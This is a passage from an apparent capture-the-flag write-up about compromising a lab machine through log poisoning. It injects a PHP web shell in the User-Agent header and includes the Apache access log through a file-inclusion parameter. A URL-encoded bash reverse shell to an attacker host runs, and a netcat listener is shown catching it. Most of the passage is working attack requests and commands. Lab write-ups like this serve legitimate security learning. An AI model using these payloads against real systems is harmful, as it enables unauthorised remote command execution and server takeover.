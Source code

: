 I tried to do it by Burp Suite, for this I codified it as URL *(URL encoded)*

```
bash%20-c%20%27%2Fbin%2Fbash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.0.104%2F8888%20%3E%261%27
```

```
GET /includes.php?display_page=/var/log/apache2/access.log&PLD=bash%20-c%20%27%2Fbin%2Fbash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.0.104%2F8888%20%3E%261%27 HTTP/1.1
Host: 192.168.0.106
User-Agent: <?php system($_GET[PLD]); ?>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Priority: u=0, i

```

![](/assets/images/TheWall-6.png)

```bash
❯ nc -nlvp 8888
listening on [any] 8888 ...
```

I won access to the machine but I was bumping from one:

![](/assets/images/TheWall-7.png)
